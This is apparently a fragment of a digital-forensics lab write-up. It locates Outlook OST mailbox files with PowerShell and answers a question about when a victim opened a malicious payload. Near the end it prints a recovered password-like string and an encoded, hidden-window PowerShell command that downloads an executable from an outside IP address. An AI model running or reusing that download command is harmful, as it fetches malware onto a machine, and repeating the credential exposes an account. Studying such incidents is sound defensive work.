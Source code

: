 ```bash
PS C:\Users> ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Microsoft\Outlook\" 2>$null | findstr Directory}
```

![image](https://github.com/user-attachments/assets/178b3ccd-ca45-49e6-9f16-719893d93e98)

<br>

```bash
PS C:\Users> ls C:\Users\ ls C:\Users\m.anderson\AppData\Local\Microsoft\Outlook\*.ost
```

![image](https://github.com/user-attachments/assets/58a437ed-37f1-431a-86f3-ae1daa3bb5fc)

<br>

![image](https://github.com/user-attachments/assets/b1898d3c-d0a2-4911-b025-a61876b35ebb)

![image](https://github.com/user-attachments/assets/bcafeb8f-17e2-4acd-a9c1-e745ff807284)

![image](https://github.com/user-attachments/assets/d39c1438-fe34-4ffd-b6b4-fd896cc5c641)

![image](https://github.com/user-attachments/assets/0927f60d-6cbe-4720-8651-4e494b1c6f3b)

![image](https://github.com/user-attachments/assets/ecb3d9d5-8489-4476-b68b-462693218821)

![image](https://github.com/user-attachments/assets/cf5eb99f-4de6-4408-9b2b-ce3b03c52b67)

![image](https://github.com/user-attachments/assets/25a785b1-03b0-4de3-9fc8-813a25e97143)


<br>

<h3>XstReader</h3>

![image](https://github.com/user-attachments/assets/5a1fd333-9b64-453e-9890-d650c3dbb0a5)

<br>

<p>2.2. <em>When did the victim open the malicious payload? (format: MM/DD/YYYY HH:MM:SS)</em><br>
<code>03/24/2024 19:07:49</code></p>

![image](https://github.com/user-attachments/assets/b6d87c08-4144-4018-858b-4d98a3825795)

MAnderson03252024!

![image](https://github.com/user-attachments/assets/fc250db5-4f02-4068-a36a-0a635581879d)

![image](https://github.com/user-attachments/assets/850a48e3-81a8-415b-842e-214a35caf57a)


```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -windowstyle hidden -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcAB
```
